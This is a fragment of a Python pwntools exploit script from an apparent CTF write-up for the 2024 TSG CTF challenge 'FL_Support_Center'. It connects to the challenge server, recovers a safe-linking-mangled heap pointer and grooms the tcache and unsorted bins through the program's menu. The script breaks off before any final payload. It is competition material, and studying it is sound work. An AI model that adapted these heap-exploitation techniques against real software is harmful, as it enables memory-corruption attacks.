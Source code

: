 ```py
    else:
        JW1 = 0 
    
    C = G + 0x1000 * JW1 + x3*neg
    F = ((leaked>>12)&0xfff) ^ C

    if( x2 > F-JW1 ):
        JW2 = 1
    else:
        JW2 = 0 
    B = F-JW1 + 0x1000 * JW2 + x2*neg
    # print(hex(leaked),hex(page_off),hex(JW2),hex(F))
    res = (A<<36) | (B <<24) | (C<<12) | D
    return res
# p=process('./fl_support_center')
p = remote("34.146.186.1",49867)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
def pack_tcache(i,v,pl):
    bitmap = [0]*0x80
    for x in range(len(i)):
       bitmap[i[x]*2] = v[x]
    return bytes(bitmap)+flat(pl)
def cmd(c):
    sla(b"> ",str(c).encode())
def add(name=b'n132'):
    cmd(1)
    sla(b": ",name)
def show():
    cmd(3)
def free(name=b'n132',c=b'A'*0x17):
    cmd(4)
    sla(b": ",name)
    pp = ru(b'\n')
    if b"T" == pp[0]:
        ru(b'\n')
        ru(b'\n')
        ru(b'\n')
        if b"yes or no" in ru(b'\n'):
            sl(b"yes")
            sla(b'\n',c)
        else:
            sl(c)
    elif b"lready blac" in pp:
        sla(b"Report: ",c)
def edit(name=b'n132',c=b'A'*0x17):
    cmd(2)
    sla(b": ",name)
    sla(b": ",c)
    if b"D" == p.read(1):
        sla(b"\n> ",'yes')
# Unsorted
for x in range(0x8):
    add(str(x).encode()*0x80)
    free(str(x).encode()*0x80)
    add(str(x).encode()*0x80)
for x in range(8):
    free(str(x).encode()*0x80,b"A"*0x101)
# Start
```

[1]: https://github.com/n132/CTF-Write-Up/blob/main/2024-TSG-CTF/FL_Support_Center/FL_Support_Center.tar.gz